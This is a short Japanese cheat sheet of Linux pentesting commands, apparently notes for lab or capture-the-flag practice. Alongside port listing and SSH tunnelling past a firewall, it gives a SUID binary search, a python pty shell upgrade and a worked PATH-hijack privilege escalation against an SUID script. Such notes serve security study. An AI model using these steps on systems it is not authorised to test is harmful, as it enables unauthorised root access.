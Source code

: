 ### TCP/UDPのポート開放状態を確認したいとき  
#### ss -nltup  
-n : ポート番号をサービス名変換しない(例えば:httpと表示せず:80と表示する)  
-l : Listen(待ち受け)ポートのみを表示する  
-t : TCP を表示する  
-u : UDP を表示する  
-p を付けて "ss -nltup" を実行すると、どのプロセスがそのポートを開放しているのかが分かります。  

### SSHのファイヤーウォールを超えて外部から目的サーバにアクセスする  
SSH の機能の内の一つであるポートフォワーディングを使ってトンネルを掘ることによって, ファイヤーウォールを超えて外部から目的サーバにアクセスすることができる  
```$ ssh -L (ローカルで使用するポート):(目的サーバのアドレス):(目的サーバで待ち受けてるポート番号) ユーザ名@IPアドレス```  

### SUIDの探索
``` find / -perm -u=s -type f 2>/dev/null ```  
  
### シェル起動  
``` python -c 'import pty;pty.spawn("/bin/bash")' ```  
なお、permission deniedでlinpeasをアップできない場合は、/tmp上でwgetするとささる  


### フルパスでないコマンドが入っているSUIDなシェルスクリプトから権限昇格する
例えば以下のようなコマンドを実行するシェルスクリプト(/usr/bin/menu)があったとする
```curl -I localhost```

1."/bin/sh"という文字列をcurlというファイルに出力する
2.生成されたcurlファイルに対してchmodで777にしてあげる
3.環境パスを現在のディレクトリにする
4.脆弱性のあるシェルスクリプトを実行すると権限昇格

以下が権限昇格の具体的な手順
```
echo /bin/sh > curl
chmod 777 curl
export PATH=現在のディレクトリ:$PATH
/usr/bin/menu
```
